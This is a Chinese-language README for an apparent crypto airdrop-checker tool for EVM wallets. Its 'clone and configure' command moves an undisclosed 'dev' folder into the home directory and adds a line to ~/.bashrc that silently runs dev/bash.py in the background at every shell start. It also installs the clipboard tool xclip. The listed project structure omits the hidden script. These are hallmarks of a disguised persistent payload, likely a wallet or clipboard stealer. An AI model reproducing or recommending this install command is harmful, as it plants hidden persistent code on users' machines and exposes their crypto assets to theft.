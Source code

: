 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip jq python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

### »»» 方法 1

使用以下命令运行脚本，按提示输入 EVM 地址

```bash
./check.sh
```

---

### »»» 方法 2

● 使用以下命令运行脚本，命令后面加上地址。
● 使用以下命令运行脚本，命令后面加上 txt 文件（先在 txt 文件中配置地址列表）。

```bash
python3 check.py ＜你的地址或者txt文件＞
```

---

### »»» 输出示例

```
查询地址: 0xaF616dABa40f81b75aF5373294d4dBE29DD0E0f6
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0.25307
    是否已领取: null
-------------------------------
  项目: optimism
    积分: -
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: scroll
    积分: 82.65113830566406
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: swell
    积分: 686.8572
    代币数量: 787.6345974761247
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
